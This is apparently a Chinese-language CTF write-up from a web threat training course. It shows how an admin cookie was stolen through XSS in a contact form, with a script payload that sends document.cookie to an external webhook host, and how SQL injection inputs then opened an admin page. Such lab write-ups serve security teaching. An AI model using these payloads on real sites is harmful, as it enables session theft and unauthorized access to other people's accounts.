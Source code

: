 - 看了cookie ，這裡顯示login 的資訊是alice 
![](/Web_Threat_Training/CTF/Web_Threat_Training_CTF_7)


- 這裡的contact admin 如果有XSS 應該可以嘗試把 admin 的 cookie 給偷回來
- 這裡講師給了一個 hint : [XMLHTTPRequest](https://www.w3schools.com/xml/xml_http.asp)
- 先從外部弄一個可以接收server response 的host 
- [Webhook](https://webhook.site/)
- payload 大致長這樣 ```<script>var http=new XMLHttpRequest(); http.open("POST", "URL"); http.send(document.cookie)</script>```

- 把URL 換一下到外部可接收response 的host

- payload : ```<script>var http=new XMLHttpRequest(); http.open("POST", "URL"); http.send(document.cookie)</script>```
![](/Web_Threat_Training/CTF/Web_Threat_Training_CTF_8)


- Result 
![](/Web_Threat_Training/CTF/Web_Threat_Training_CTF_9)

- 從前面的 error message 可以知道query 的欄位還有一個 admin 
```
"SELECT username, password, admin from users where username = 'admin 'and password = '' OR '1''"

```
![](/Web_Threat_Training/CTF/Web_Threat_Training_CTF_13)

- 試著把login 的payload 改成 ```' or admin='1```
- 嘗試後會失敗，突然想到前面的解題，有拿到admin cookie 
- 把剛剛看到的cookie 都設定回去再試一次
![](/Web_Threat_Training/CTF/Web_Threat_Training_CTF_12)

- 進到 admin page 了！！
![](/Web_Threat_Training/CTF/Web_Threat_Training_CTF_11)

- admin page 裡有剛剛送過去的XSS payload 
![](/Web_Threat_Training/CTF/Web_Threat_Training_CTF_14)
![](/Web_Threat_Training/CTF/Web_Threat_Training_CTF_15)


###### tags: `Training` `Web Threat` `Security`